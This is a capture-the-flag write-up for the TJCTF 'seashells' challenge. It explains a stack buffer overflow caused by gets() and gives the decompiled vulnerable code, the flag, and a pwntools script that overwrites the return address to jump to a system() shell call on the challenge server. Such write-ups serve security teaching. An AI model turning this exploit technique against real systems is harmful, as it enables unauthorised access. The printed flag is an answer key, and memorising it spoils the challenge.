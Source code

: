 # TJCTF: binary

Written by KyleForkBomb

_I heard there's someone selling shells? They seem to be out of stock though..._

`nc p1.tjctf.org 8009`

## Beginnings

Starting the program will look like this: 
```sh
$ ./seashells
Welcome to Sally's Seashore Shell Shop
Would you like a shell?
yes!!!!!  <-- user input
why are you even here?
```

And the associated (stripped) decompiled code:
```c
int main() {
  char s1[0xA];
  puts("Welcome to Sally's Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(s1);
  if ( !strcasecmp(s1, "yes") )
    puts("sorry, we are out of stock");
  else
    puts("why are you even here?");
  return 0;
}
```

This challenge is a classic buffer-overflow challenge. We take a look at `checksec` and gather our options:

<p align="center">
<img src="checksec.png">
</p>

PIE's off, and we can notice this small `shell()` function embedded in the binary:

<p align="center">
<img src="shellfunc.png">
</p> 
<p align="center">
<img src="address.png">
</p> 


Although there are if-checks, we'll just jump over them and head straight for the `system()` call (address shown above):

<p align="center">
<img src="interactive.png">
</p> 

That'll be the challenge.

## flag

`tjctf{she_s3lls_se4_sh3ll5}`

## code
```python
from pwn import *
binsh = 0x4006E3
to_r = 0xA+8
r = remote('p1.tjctf.org', 8009)
r.sendlineafter('?\n', to_r*'A' + p64(binsh))
r.interactive()
```
